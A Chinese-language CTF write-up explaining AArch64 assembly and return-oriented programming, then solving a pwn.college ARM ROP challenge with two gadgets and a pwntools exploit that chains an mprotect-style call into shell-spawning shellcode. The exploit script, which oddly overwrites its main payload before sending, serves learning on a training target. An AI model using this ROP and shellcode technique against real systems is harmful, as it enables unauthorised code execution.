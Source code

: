 ```yaml
---
title: pwn-college的一道arm rop题
date: 2024-10-13
categories: ctf
tag: arm
---
```

# 前言
最近是在[Rocket](https://rocketmadev.github.io/)安利下去看了[pwncollege](https://pwn.college/)这个网站，然后感觉还不错，armdojo已经快刷完了，就差一题！！！但是最后一题好难啊，看了好几个小时没思路。
# arm中rop所需要了解的知识
首先arm的rop和x86中差了非常多，所以这里介绍一下差别，顺便带一下道场中别的知识包括汇编指令和在栈溢出学习中发现的不同。
## aarch64汇编指令
1. aarch64是arm的64位的叫法，就像x86-64和x86一样。
2. arm中的寄存器有整整30个！
其中函数传参时前八个参数使用X0-X7，后续参数放在栈上。
而syscall时前八个参数依然是X0-X7
以及很重要的X30寄存器也就是LR寄存器，其作为函数返回地址保存的寄存器，函数返回将会无条件跳转至X30。
3. arm架构下，所有的指令是4个字节定长的！！其带来了很多神奇的与x86不同的特性，按我的话说，成也定长，败也定长。
    1.  细说一下，比如"mov rax, 0x2024202520262027"这个指令可以直接在x86中一步完成，
        但是在arm中，收到指令定长为4的限制，无论如何不可能出现超过两个字节的立即数。
        arm的解决办法如下
        ```asm
        MOV  X0 0x2027
        MOVK X0 0x2026, LSL #16
        MOVK X0 0x2025, LSL #32
        MOVK X0 0x2024, LSL #48
        ```
        通过位移的方式赋值，最多一次赋值两个字节。
    2.  然后是add,sub,smull,sdiv指令等等，其支持三个操作数的特性使其比x86更加灵活。
        ```asm
        ADD X0, X1, X2
        ```    
        就是`X0 = X1 + x2`的功能，可以发现其在x86中是完全不可能一条指令实现的。
        这只是最简单的，更详细的可以在[arm开发者手册通常指令](https://developer.arm.com/documentation/dui0802/b/A64-General-Instructions/A64-general-instructions-in-alphabetical-order)[arm开发者手册数据转换指令][def]中找到更详细的内容
    3.  还有很重要的`LDR`和`LDP`指令，是从地址中加载数据到寄存器。
        ```asm
        MOV X3, sp
        LDR X0, [X3]
        ```
        LDR是`load addr`加载地址，LDP是`load addr pair`成对加载地址
        比如这条指令从[X3+8]的位置加载出来0x10的内存，前0x8的内存加载给X1,后0x8的内存加载给X2。
        ```asm
        LDP X1, X2, [X3, #0x8]
        ```
        与`LDR`和`LDP`对应的是`STR`和`STP`，其功能显然就是反过来，所以懒得说了。
    4.  arm有三种索引方式，`preindex``postindex``offset`，其原理都是基于一个基址寄存器加上一个偏移取地址。
        1. 比如`LDR X0, [SP , #0x90]`就是offset取地址，其不改变SP的值直接从[SP+0x90]的位置取出0x8大小的内存赋值给X0。
        2. `LDR X0, [SP, #0x90]!`则是先对SP+=0x90，再从[SP]的地址取出0x8大小的内存赋值给X0
        3. `LDR X0, [SP], #0x90`则是先从SP取出内存赋值，再使得SP+=0x90
        可以发现其功能比x86强大很多，也许是因为固定四个字节的指令长度强迫其必须在一条指令中实现更多功能，否则如果按照x86的设计逻辑，代码段的长度会长非常多。
        不过有一点非常可惜的是arm中没有直接的push和pop指令，而是通过LDR来实现push和pop等对于栈的操作。
接下来具体的到题目中分析

# ARM-ROP
arm中函数返回地址的取值并非x86中直接从栈上取，而且我目前了解到clang和gcc编译的arm程序的返回地址取值都有着一定区别。这题是clang编译的，所以首先说clang编译的程序机制。

`RET`指令在x86中意味着`pop rip`，而在arm中意味着`B X30`，B是arm的无条件跳转指令，也就是说每当arm函数返回时，其无条件跳转至X30的地址。

与X30一对的是X29，X29类似于一个rbp，作为辅助来维持栈的结构，但是很少被真正用来索引，我也没有见过像x86中的`mov rsp, rbp`这种可以利用rbp的情况发生，甚至连函数内部的变量索引都很少用到X29。

每当新函数被调用，就会将X29，X30的值保存在栈上，然后在返回时取出并且跳转至X30，看似栈溢出劫持程序流的思路依然可行对吧，但是实际上这比x86中难了一个档。

![clang-ret](./arm-rop/clang_ret.png)

图中可以看到，程序从[SP+0x50]的位置加载出X29和X30，当我们在challenge函数中存在栈溢出时，对于challenge函数的返回地址劫持就成功了。

可以对比一下x86和arm的区别
```asm
mov rsp, rbp
ret
```
x86固定从栈顶取返回地址。而arm的返回地址固定从SP+多少多少取，而这个值就取决于函数栈帧大小，所以从sp到sp+多少多少这段栈帧都必须被覆盖才能写到下一个函数的返回地址。
而且，arm的`RET`指令还依赖于`LDP X29, X30, [SP],#0x20`，必须由该指令加载X30后RET才能正确返回。
而且，arm还是定长指令，不存在x86中可以通过错位构造一些gadget的情况。
还有就是，x86中经常出现函数末尾pop来恢复寄存器然后返回，但是在arm中我经常只能看到对于X19和X20的恢复，也许是因为arm的寄存器太多了，太阔了吧QAQ

说了这么多，还是上图片吧。这样讲就很明显了，由于
![stack](./arm-rop/stack.png)

# 程序分析
arm道场系列里第一个module是熟悉一下aarch64的各种指令，手写各种指令做一下简单操作。第二个module是rop，所以贯穿始终的都是超长超大的栈溢出。

![main_ida](./arm-rop/main_ida.png)
main里面几乎没有任何内容，然后是challenge函数。
![challenge](./arm-rop/challenge.png)
直接给了一个栈地址，然后给了超大栈溢出。
还有就是该函数是静态编译的，所以有特别多gadget。

由于上面说到的种种困难，我在寻找gadget时有点卡住了，不过最后，让我找到了非常好用的两个gadget
```
0x43e980 : ldp x19, x20, [sp, #0x10] ; ldp x21, x22, [sp, #0x20] ; ldp x23, x24, [sp, #0x30] ; ldp x25, x26, [sp, #0x40] ; ldp x27, x28, [sp, #0x50] ; ldp x29, x30, [sp], #0x130 ; ret
# x19-x30

0x42f278 : ldr x3, [x21, #0x38] ; mov x1, x23 ; mov x2, x20 ; mov x0, x19 ; blr x3
```
单单通过栈就能控制x19-x30的寄存器，然后再控制x0，x1，x2，x3，通过x3继续控制程序流，不得不说，还好这题给了栈的值，要不就没法通过x21控制x3了。
## exp
```python
from pwn import *
import os
os.environ['QEMU_LD_PREFIX'] = '/usr/aarch64-linux-gnu'
context(terminal = ['tmux','splitw','-h'], arch = "aarch64", log_level = "debug")
io = gdb.debug('./pwn')

io.recvuntil(b'at: ')
stack = int(io.recv(0xe), 16)
print(hex(stack))

shellcode = asm(shellcraft.aarch64.sh())

payload = b''
payload += b'/flag\x00' + p64(0x43E568) # x3
payload += b'\x00'*0x29 + p64(0x0) # x29
payload += p64(0x43e980) # x30
payload += p64(0x0) + p64(0x42f278) # x29, x30
payload += p64((int(stack/0x1000)*0x1000)) + p64(0x7) # x19(x0), x20(x2)
payload += p64(stack + 6 - 0x38) + p64(0x0) # x21, x22
payload += p64(0x1000) + p64(0x0) # x23(x1), x24
payload += p64(0x0) + p64(0x0) # x25, x26
payload += p64(0x0) + p64(0x0) # x27, x28
payload += shellcode + b'\x00'*(0xD0-len(shellcode))
payload += p64(0x0) + p64(stack + 0xa7)

payload = b''
payload += b'/flag\x00' + p64(0x0) # x3
payload += b'\x00'*0x29 + p64(0x0) # x29
payload += p64(0x401878) # x30
io.send(payload)

io.interactive()
```
